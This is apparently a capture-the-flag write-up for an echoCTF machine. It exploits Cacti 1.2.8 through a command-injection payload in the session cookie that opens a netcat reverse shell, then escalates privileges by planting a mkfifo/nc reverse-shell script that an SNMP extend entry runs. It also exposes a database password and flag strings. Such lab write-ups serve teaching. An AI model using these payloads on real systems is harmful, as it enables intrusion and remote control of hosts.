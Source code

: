 echored CTF
└─# nmap -sV -Pn -p- --min-rate 5000 $ip
Not shown: 62284 filtered tcp ports (no-response), 3250 closed tcp ports (reset)
PORT   STATE SERVICE    VERSION
80/tcp open  tcpwrapped

found cacti : http://10.0.30.124/cacti/
first and foremost i will search for default credentials in cacti
Now time to hit some research finding some default credentials luckily i came accross guest/guest and boom we are in.
I can use these exploits
```
└─# searchsploit cacti 1.2.8
-------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                        |  Path
-------------------------------------------------------------------------------------- ---------------------------------
Cacti 1.2.8 - Authenticated Remote Code Execution                                     | multiple/webapps/48144.py
Cacti 1.2.8 - Remote Code Execution                                                   | php/webapps/48128.py
Cacti 1.2.8 - Unauthenticated Remote Code Execution                                   | multiple/webapps/48145.py
Cacti v1.2.8 - Unauthenticated Remote Code Execution (Metasploit)                     | php/webapps/48159.rb
-------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                               ```
But i will use manual mode using the authenticated mode.
I visited this : http://10.0.30.124/cacti/graph_realtime.php?action=countdown&top=0&left=0&local_graph_id=1826
and intercepted request
the vulnerable is the cookie sessions, i encoded my payload on an url encode, to get a reverse shell
and i used this : `;nc${IFS}-e${IFS}/bin/bash${IFS}10.10.5.230${IFS}1337 `for burpsuite
%3Bnc%24%7BIFS%7D%2De%24%7BIFS%7D%2Fbin%2Fbash%24%7BIFS%7D10%2E10%2E5%2E230%24%7BIFS%7D1337

and i got my shell : └─# nc -lvnp 1337                       
listening on [any] 1337 ...
connect to [10.10.5.230] from (UNKNOWN) [10.0.30.124] 43312
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

export TERM=xterm

PrivEsc
Ports
```
www-data@nopal:/tmp/Priv$ ss -tupln 
Netid  State      Recv-Q Send-Q Local Address:Port               Peer Address:Port              
udp    UNCONN     0      0      127.0.0.11:47253                 *:*                  
udp    UNCONN     0      0      127.0.0.1:161                   *:*                  
tcp    LISTEN     0      128    127.0.0.11:43013                 *:*                  
tcp    LISTEN     0      80     127.0.0.1:3306                  *:*                  
tcp    LISTEN     0      128       *:80                    *:*                   users:(("nginx",pid=442,fd=6),("nginx",pid=441,fd=6))
www-data@nopal:/tmp/Priv$ 
```
I used linpeas
found this :
```
╔══════════╣ Analyzing Backup Manager Files (limit 70)

-rw-rw-r-- 1 www-data www-data 52208 Dec  8  2019 /opt/cacti/lib/database.php
    $len = db_get_column_length('user_auth', 'password');
        $len = db_get_column_length('user_auth','password');

```

and also this :
```
╔══════════╣ Analyzing SNMP Files (limit 70)
-rw-rw-r-- 1 root root 335 Mar 17  2021 /etc/snmp/snmpd.conf
rocommunity public default
rwcommunity private default
extend etsctf /tmp/snmpd-tests.sh
-rw------- 1 root Debian-snmp 1075 Sep 21 01:57 /var/lib/snmp/snmpd.conf

```
for this i found : https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp/snmp-rce
go on /etc/snmp
i found 
```
www-data@nopal:/etc/snmp$ cat snmpd.conf
cat snmpd.conf
agentAddress  udp:127.0.0.1:161

view   systemonly  included   .1.3.6.1.2.1.1
view   systemonly  included   .1.3.6.1.2.1.25.1
sysLocation    ETSCTF_4352d9eb155ffe427fd322e2325d6117
sysContact     echoCTF.RED <info@echoctf.red>
sysServices    72

rocommunity public default
rwcommunity private default
extend etsctf /tmp/snmpd-tests.sh
www-data@nopal:/etc/snmp$ 
```

this is important `extend etsctf /tmp/snmpd-tests.sh` but not exist
for shell
we will create an reverse shell on a file named /tmp/snmpd-tests.sh

www-data@nopal:/tmp$ cat snmpd-tests.sh 
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.5.230 1337 >/tmp/f
www-data@nopal:/tmp$ 

and then run it using `snmpwalk 127.0.0.1 -c public -v1 . -On`

also
```
╔══════════╣ Analyzing Cacti Files (limit 70)
drwxr-xr-x 1 www-data www-data 4096 Mar 17  2021 /opt/cacti
-rw-rw-r-- 1 www-data www-data 2271 Mar 17  2021 /opt/cacti/include/config.php
$database_type = "mysql";
$database_default = "cacti";
$database_username = "cacti";
$database_password = "xoconostle";
$database_port = "3306";
$database_ssl = false;
```

ETSCTF_ad86513df28d09237b319c265668d5f1